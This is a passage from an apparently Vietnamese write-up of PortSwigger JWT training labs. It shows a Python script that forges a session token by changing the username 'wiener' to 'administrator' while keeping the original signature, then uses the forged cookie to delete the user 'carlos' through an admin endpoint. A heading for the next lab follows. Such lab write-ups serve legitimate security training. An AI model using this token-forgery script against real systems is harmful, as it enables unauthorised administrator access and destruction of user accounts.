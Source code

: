 ```python!
    data=data,
    verify=False,
    allow_redirects=False,
)

token =  response.headers['Set-Cookie'].split('; ')[0].split('=')[1]

payload = jwt.decode(token, options={"verify_signature":False})
print(f"Decode token: {payload}\n")

header,payload,signature = token.split(".")
decode_payload = base64.urlsafe_b64decode(payload + '=' * (-len(payload) % 4))
modified_payload = decode_payload.replace(b'wiener', b'administrator')
print(f"Modified payload : {modified_payload.decode()}\n")

modified_payload_b64 = base64.urlsafe_b64encode(modified_payload).rstrip(b'=').decode()
print(modified_payload_b64)
modified_token = f"{header}.{modified_payload_b64}.{signature}"
print(f"Modified token : {modified_token}\n")

session_data = modified_token
cookies = {
    'session' : session_data,

}

response = requests.get(
    url + '/admin/delete?username=carlos',
    cookies=cookies,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/rkC9WugTp.png)


![image](https://hackmd.io/_uploads/HkZDbux66.png)

mục đích của chúng ta đã hoàn thành và mình đã solve được lab này

![image](https://hackmd.io/_uploads/r1ONZOlpa.png)

## 2. Lab: JWT authentication bypass via flawed signature verification

link: https://portswigger.net/web-security/jwt/lab-jwt-authentication-bypass-via-flawed-signature-verification
